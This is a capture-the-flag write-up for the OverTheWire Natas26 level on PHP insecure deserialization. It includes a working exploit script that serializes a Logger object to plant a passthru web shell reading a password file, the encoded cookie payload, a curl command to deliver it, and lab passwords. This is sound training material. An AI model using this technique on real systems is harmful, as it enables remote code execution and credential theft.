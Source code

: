 ```yaml
---
category: natas
title: Natas26 - Insecure Deserialization
---
```


website: http://natas26.natas.labs.overthewire.org/ (password: oGgWAJ7zcGT28vYazGo4rkhOPDhBu34T)

This is the most challenging question I have seen in NATAS so far.
In this challenge, it draws an image based on users' input.
User can also view this image via a URL.
I didn't see any logic issue in this challenge, but I did notice that the source code has a class `Logger` that is never used in this application.

After I did some research, I found this article on the OWASP Top 10:
<a href="https://owasp.org/www-project-top-ten/2017/A8_2017-Insecure_Deserialization">Insecure Deserialization</a>.
In this article, it explains how a hacker could exploit this vulnerability and inject malicious codes.

Going back to Natas26 itself, I noticed that it also deserializes an object from the cookie:
```php
if (array_key_exists("drawing", $_COOKIE)){
    $drawing=unserialize(base64_decode($_COOKIE["drawing"]));
```

This gives me a hint to send the server a drafted cookie that contains a serialized object,
and the serialized object contains some malicious code.
Which object are we going to use?
Obviously an object of `Logger` because the server knows it! See below:

```php
class Logger{
    private $logFile;
    private $initMsg;
    private $exitMsg;
   
    function __construct($file){
        // initialise variables
        $this->initMsg="#--session started--#\n";
        $this->exitMsg="#--session end--#\n";
        $this->logFile = "/tmp/natas26_" . $file . ".log";
... <skipped>
```

Now all what I need is to do the reverse of `unserialize(base64_decode($_COOKIE["drawing"]))` on the client side:
- `base64_encode(serialize($obj))`.

Here, `$obj` is an instance of class `Logger`.
Moreover, I will provide the properties with following values:
- Provide `$logFile` with a php file name, e.g., <small>/var/www/natas/natas26/img/mylog.php</small>.
- Provide `$exitMsg` with php code `<?php passthru('cat /etc/natas_webpass/natas27'); ?>`. 

Regarding how it works, the key point here is the line `$drawing=unserialize(base64_decode($_COOKIE["drawing"]));`:
Once an HTTP request's cookie contains a "drawing" parameter,
the server will consider this parameter as a serialized object
and try to restore that object by deserializing it.
Any object has its life cycle.
Once an object is end of life, the destructor will be called and thus the `$exitMsg` will be written into the `$logFile`, which is a php file.

To help you better understand the idea, here are my steps to solve this challenge:

<strong>Step 1.</strong>
Came up with a php script on the client side.
The script defines a variant of class `Logger` and creates a serialized `Logger` object.
The properties' names are the same with the ones on the server side,
but their values are different from the server side. See below:

```php
<?php

class Logger {
    private $logFile;
    private $initMsg;
    private $exitMsg;

    function __construct(){
        $this->initMsg="hello miaxu\n";
        $this->exitMsg="<?php passthru('cat /etc/natas_webpass/natas27'); ?>";
        $this->logFile = "/var/www/natas/natas26/img/mylog.php";
    }
}

$o = new Logger();
//print_r($o);
echo urlencode(base64_encode(serialize($o)))."\n";

?>
```

<strong>Step 2.</strong>
Naming the above PHP script as natas26.php.
Running it on the client side. That will give you a serialized `Logger` object:
```shell
$ php natas26.php
Tzo2OiJMb2dnZXIiOjM6e3M6MTU6IgBMb2dnZXIAbG9nRmlsZSI7czozNjoiL3Zhci93d3cvbmF0YXMvbmF0YXMyNi9pbWcvbXlsb2cucGhwIjtzOjE1OiIATG9nZ2VyAGlu
aXRNc2ciO3M6MTI6ImhlbGxvIG1pYXh1CiI7czoxNToiAExvZ2dlcgBleGl0TXNnIjtzOjUzOiI8P3BocCBwYXNzdGhydSgnY2F0IC9ldGMvbmF0YXNfd2VicGFzcy9uYXRh
czI3Jyk7ID8%2BCiI7fQ%3D%3D
```

<strong>Step 3.</strong>
Running a curl command to send a request with the object that we just created
(I skipped the full string due to the page limitation,
please do copy the full string in step 2 if you want to test my solution):
```shell
curl -u natas26:oGgWAJ7zcGT28vYazGo4rkhOPDhBu34T  "http://natas26.natas.labs.overthewire.org/?x1=1&y1=1&x2=2&y2=2" \
     --cookie "drawing=Tzo2OiJMb2dnZXIi..."
```

<strong>Step 4.</strong>
You will see an error in the response returned by the server:
```html
<img src="img/natas26_ngv6psfcumtah7demlq7139955.png"><br />
<b>Fatal error</b>:  Cannot use object of type Logger as array in <b>/var/www/natas/natas26/index.php</b> on line <b>105</b><br />
```
You see the error because the server cannot deserialize the object as an array of X/Y axies
(which makes sense because it's our hand crafted object with malicious code).
That's okay. We don't care about the error.
All what we care about is that a php file was created on the server under this path:
"/var/www/natas/natas26/img/mylog.php".
There is only one line in this php file: `<?php passthru('cat /etc/natas_webpass/natas27'); ?>`

<strong>Step 5.</strong>
The above php file is accessible via the URL "http://natas26.natas.labs.overthewire.org/img/mylog.php".
Visiting that page will run the malicious PHP code and show natas27's password: <small>55TBjpPZUUJgVP5b3BnbG6ON9uDPVzCJ</small>.



<strong>References</strong>

This challenge is about the security risk of Insecure Deserialization, which is listed as one of OWASP Top 10.
Please refer to this article for more details:
- <a href="https://owasp.org/www-project-top-ten/2017/A8_2017-Insecure_Deserialization">Insecure Deserialization</a>.
